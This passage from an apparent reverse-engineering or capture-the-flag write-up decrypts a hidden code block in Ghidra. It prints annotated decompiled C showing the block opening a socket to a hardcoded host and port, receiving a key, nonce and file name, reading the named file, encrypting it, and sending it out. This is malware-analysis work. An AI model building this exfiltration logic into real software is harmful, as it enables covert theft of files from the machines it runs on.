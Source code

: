 You could have python decrypt the instructions via unicorn, however, I prefer to paste it back into ghidra. Open the bytes view, and click the left most button in the top bar of the subwindow. Then, paste the hex from the python script into the first byte of the encrypted block.

## Inside the encrypted block

From the first function, a new stack is created in RBP by moving RSP to RBP, and another function is called. I cleaned this one up with the [syscall table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit), and a bit of hand editing

```c

undefined8 FUN_00124722(undefined8 param_1,undefined8 param_2)

{
  uVar2 = FUN_0012397a(0xa00020f,0x539);
  //recieves data in form of key, nonce, and length of data to come
  recvfrom(uVar2,[rbp-0x1278],0x20, ?, NULL, NULL);
  recvfrom(uVar2,[rbp-0x1258],0xc, ?, NULL, NULL);
  recvfrom(uVar2,[rbp-0xc8],0x4, ?, NULL, NULL);
  //recieves file name, ends data with null byte
  datalen = recvfrom(uVar2,[rbp-0x1248],[rbp-0xc8], ?, NULL, NULL);
  [rbp-0x1248][datalen] = '\0'
  //opens file name requested by traffic
  fileptr = open([rbp-0x1248],NULL,NULL);
  //reads 0x80 bytes of file into stack, gets length
  read(fileptr,[rbp-0x1148],0x80);
  [RBP-0xc4] = sizeof([rbp-0x1148]);
  //unknown functions
  FUN_00124632(sendlen,[rbp-0x1148],[rbp-0x1278],[rbp-0x1258],0,0);
  FUN_001246a9();
  //sends data off to same socket as before
  sendto(uVar2,[RBP-0xc4],0x4,NULL,NULL,NULL);
  sendto(uVar2,[rbp-0x1148],sendlen,NULL,NULL,NULL);
  //unknown functions
  FUN_0012396b(uVar2,local_1170,local_ec);
  FUN_001239ef();
  return 0;
}
```

From here, we know what it does, and where to decode next. It calls an unknown function, then It will read in traffic, which seems to be the file name, and the pair of `0x20` bytes, and `0xc` bytes. This looks very much like the ChaCha20 encryption key and nonce like before.

After this, it reads the file, and does something in the block of functions, and sends the data off, lastly to execute the block of functions.

To get a better understanding, you have to identify the functions.

#### `FUN_0012397a` or socketconnect
```c

//custom inputs
int FUN_0012397a(int param_1,short param_2)
{
  server_addr.sin_family = AF_INET; 
  server_addr.sin_port = param_3 << 8;
  server_addr.sin_addr.s_addr = bswap_32(param_4); 

  
  sock = socket(AF_INET,SOCK_STREAM,TCP);
  if (sock < 0){
	  return sock;
  }
  //sets up socket addr
```